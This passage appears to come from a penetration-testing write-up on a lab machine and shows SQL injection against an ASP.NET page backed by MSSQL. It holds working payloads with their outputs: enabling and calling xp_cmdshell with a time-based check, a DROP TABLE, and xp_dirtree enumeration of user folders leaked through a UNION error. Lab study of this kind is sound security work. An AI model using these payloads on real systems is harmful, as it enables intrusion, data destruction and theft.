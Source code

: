 #### 3.1. MSSQL Extended Procedures
- `xp_cmdshell` - executes OS command
- `xp_dirtree` - list directories (useful with SBM + `Responder.py`)
- `xp_regread` - read Windows registries
Note: `https://www.exploit-db.com/papers/12975`


#### 3.2. Testing vector for `xp_cmdshell` (cannot be enabled)
```
# target="10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=18"
# payload=";EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;EXEC xp_cmdshell "whoami" IF @@ERROR>0 WAITFOR DELAY '0:0:20' ELSE WAITFOR DELAY '0:0:5';--"
# time http "$target$payload" >/dev/null

real	0m20.687s
user	0m0.396s
sys	0m0.056s
```


#### 3.3. Testing vector for `xp_dirtree`

a) drop table
```
# target="10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=18"
# payload=";DROP TABLE Monaco"
# http "$target$payload" >/dev/null
```

b) create table
```
# target="10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=18"
# payload=";CREATE TABLE Monaco (fullpath VARCHAR(max),subdirectory NVARCHAR(max));WAITFOR DELAY '0:0:5';--"
# time http "$target$payload" >/dev/null
```
Note: in case no delay - SQL error

c) insert
```
# target="10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=18"
# payload=";INSERT INTO Monaco exec master.sys.xp_dirtree 'C:\Users\';--"
# time http "$target$payload" >/dev/null
```

d) read data
```
# target="10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=18"
# sub="(SELECT fullpath %2b ',+' FROM Monaco WHERE subdirectory=1 FOR XML PATH(''))"
# payload=" UNION SELECT ALL $sub,`printf 'null\n%.0s' {1..23} | tr '\n' ','`null--"
# http "$target$payload" -b | grep -oE '<title>.*</title>'
<title>Conversion failed when converting the nvarchar value '.NET v4.5, .NET v4.5 Classic, Administrator, All Users, Default, Default User, Public, SQLTELEMETRY$SQLEXPRESS, Stacy, ' to data type int.</title>
```
